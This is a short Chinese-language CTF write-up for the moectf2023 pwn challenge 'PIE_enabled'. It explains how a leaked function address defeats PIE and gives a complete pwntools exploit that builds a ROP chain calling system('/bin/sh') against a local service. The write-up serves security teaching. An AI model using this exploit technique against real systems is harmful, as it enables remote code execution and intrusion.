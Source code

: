 

## PIE_enabled

从题目中可以看出程序开启了PIE保护，即程序加载的基址会变化，但是程序内不同函数的相对地址不变。打开IDA可以看到程序输出了Vuln的地址，拿到Vuln的地址后通过Vuln函数的加上偏移量可以确定其它函数或变量的地址。

![image-20230823105743926](./moectf2023-pwn-wp.assets/image-20230823105743926.png)



```python
# 确定偏移量
vuln = 0x1245
system_addr = 0x11d8
binsh_addr = 0x4010
pop_rdi = 0x1323
print(hex(system_addr - vuln)) # -0x6d
print(hex(binsh_addr - vuln))  # 0x2dcb
print(hex(pop_rdi - vuln))     # 0xde
```

exp:

```python
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 
sh = remote("localhost", 38777)

sh.recvuntil(b'0x')
vuln_addr = int(sh.recvuntil(b'\n').strip(), 16)
system_addr = vuln_addr - 0x6d
binsh_addr = vuln_addr + 0x2dcb
pop_rdi = vuln_addr + 0xde
pad = b'a' * 0x58 + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
sh.sendline(pad)
sh.interactive()
```

